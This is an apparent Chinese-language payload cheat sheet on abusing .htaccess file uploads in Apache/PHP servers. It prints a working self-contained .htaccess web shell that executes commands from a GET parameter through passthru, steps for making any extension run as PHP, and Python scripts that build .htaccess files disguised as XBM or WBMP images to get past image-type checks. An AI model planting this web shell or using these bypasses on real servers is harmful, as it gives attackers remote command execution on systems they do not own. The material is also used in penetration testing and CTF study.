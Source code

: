 # .htaccess 文件上传

上传.htaccess文件以覆盖apache原先的配置文件并执行PHP。攻击者还可以利用.htaccess文件上传使任意文件的后缀名称都可执行PHP代码。举个简单的例子，在我们认知中一些特定的文件名称后缀作为静态文件，不具备PHP脚本执行功能，如JPG、PNG、CSS等。但通过上传.htaccess文件，可以将原先的静态文件变成可执行的PHP动态脚本。

自包含式 .htaccess web shell

```python
# 自包含式 .htaccess web shell - htShell 项目的一部分
# 作者 Wireghoul - http://www.justanotherhacker.com

# 覆盖默认拒绝规则使 .htaccess 文件可通过Web访问
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# 将.htaccess文件解释为php文件。
# Apache从.htaccess文件定向
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

# 修改.htaccess使任意扩展名变成php

1.编辑.htaccess文件内容为: `AddType application/x-httpd-php .rce`   
2.上传.htaccess文件
3.上传扩展名为`.rce`的文件，文件内容包含PHP代码，访问`xx.rce`文件即可当做PHP文件执行。
4.更多细节可参考 [.htaccess文件解析漏洞](https://blog.csdn.net/weixin_44032232/article/details/108998564)

# .htaccess 图片上传

如果在服务器端使用`exif_Imagetype`函数来确定上传的图片类型，则创建一个`htaccess/image(png/jpg/gif)`

[支持的图像类型](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants)包括[X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap)和[WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format)。在忽略以`\x00`和`#`开头的行的`.htaccess`中，可以使用以下脚本生成有效的.`htaccess/image(png/jpg/gif)`

```python
# create valid .htaccess/xbm image

width = 50
height = 50
payload = '# .htaccess file'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```
或
```python
# create valid .htaccess/wbmp image

type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'# .htaccess file'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

## 致谢&参考

* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Writeup to l33t-hoster task, Insomnihack Teaser 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
* [.htaccess文件解析漏洞](https://blog.csdn.net/weixin_44032232/article/details/108998564)